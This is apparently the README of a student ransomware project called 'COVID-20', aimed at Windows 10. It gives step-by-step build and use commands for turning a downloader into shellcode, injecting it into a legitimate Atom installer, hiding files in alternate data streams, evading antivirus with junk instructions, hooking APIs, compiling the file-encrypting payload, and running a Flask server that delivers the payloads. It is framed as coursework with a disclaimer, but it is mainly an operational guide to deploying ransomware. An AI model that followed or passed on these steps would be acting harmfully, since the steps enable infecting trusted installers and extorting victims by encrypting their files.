 # COVID-20 Ransomware

COVID-20 is a ransomware that encrypts several types of files in a smart way and asks for a rescue in order to retrieve the encryption key. This ransomware is designed to target Windows users, more precisely Windows 10 users. This project was done during the Malware subject of the UPC Master's Degree in Cybersecurity.

**DISCLAIMER: This project was done for educational purposes. We are not responsible for the use you give it.**

## Infection
For the infection part we decided to use *code resizing* technique. This consits in modifing the size of a section of a *.exe* file in order to add the malicous code

For this, we have the following files, located in */infection* directory:
- PE.cpp
- PE.h
- InfectPE.cpp
- payloadDownloader.cpp -> code that after will become the shellcode that will be injected in a legitimate exe file
- AtomSetupHealthy.exe -> Atom installer without being infected
- AtomSetup.exe -> The Atom installer infected
- ShellcodeCompiler_x64.exe -> C/C++ compiler that not generates 0's in the shellcode. Extracted from [here](https://github.com/NytroRST/ShellcodeCompiler).

### Create shellcode
From C/C++ to assembly.
```sh
> ShellcodeCompiler_x64.exe -r payloadDownloader.cpp -a Asembly_NoJunk.asm -p win_x86
```
You have the assembly code of the `payloadDownloader.cpp` in the */infection* directory.


Assembly to shellcode.
```sh
$ nasm -f win32 Asembly_NoJunk.asm 
$ objcopy -j .text -O binary Asembly_NoJunk.obj binary.bin
$ hexdump -v -e '"\\" 1/1 "x%02x"' binary.bin
```

### Infect a file
Put the shellcode inside the infectPE.cpp (only accepts x86 executables). A posible option of executable file to infect is this [AtomInstaller](https://github.com/atom/atom/releases/download/v1.53.0/AtomSetup.exe)

```sh
> g++ -c PE.cpp -std=c++17
> g++ -c InfectPE.cpp -std=c++17
> g++ -o InfectPE.exe InfectPE.o PE.o
> .\InfectPE.exe .\executable_to_infect.exe .\executable_infected.exe
```
You have a compilation of it in `InfectPE.exe` file that is ready to be used.
### List hidden files
To hide the files downloaded by `downloadPayload.cpp` file, we use a techinque based in adding `:` at the end of the file, followed by an identifier. The only way to list these files, is typing the following command in the terminal, inside the directory that are intended to list:

```sh
> dir /R
```

## Anti anti-virus techniques
In order to avoid being detected by an antivirus or a forensic analyst, we decided to add junk instructions to the assembly code generated during the infection part. The `Asembly_Junked.asm` file has the assembly code with all the junk instructions that we added. You can find this file in */anti-techinques* directory.

## Obfuscation
For the obfuscation part, the following files are necessary, which can be found in */Obfuscation* directory:

- ManualMappingTutorial.exe
- APIHooking.dll

You can find the source code of both files in */InjectDLL* and */APIHooking.dll* respectively. To compile it, import both directories as a ***Visual Studio*** project.

## Encryption
In */encryption* directory you will find the following files:

- payload.py -> payload's source code
- payload.exe -> payload's executable
- /test -> directory to test the payload. It contains *.jpg* and *.exe* files 

If you want to modify the `payload.py` and generate a new executable, you can do it with the next command:

```sh
$ pyinstaller payload.py --onefile --console
```
## Malserver
Our Malserver has the following dependences:
- Flask

```sh
$ pip3 install Flask
```

To execute the server:

```sh
$ sudo python3 server.py
```

A part from that, you also need to have the following files in the same directory as the `server.py` file are:

- payload.exe
- ManualMappingTutorial.exe
- APIHooking.dll

`server.py` file is located in */server* directory.

## Old versions
Instructions about how to use the preliminar versions that the project had at any moment during the development. You can find the codes in */old* directory

```sh
> g++ -c processCreator.cpp
> g++ -o procesCreator.exe processCreator.o
> .\processCreator.exe executable_to_execute.exe

> g++ -c shellcodeExecuter.cpp
> g++ -o shellcodeExecuter.exe shellcodeExecuter.o
> .\shellcodeExecuter.exe
```

## Creators
- Cankut Askan
- Albert Azemar
- Ismael Douha
- Marti Fernandez
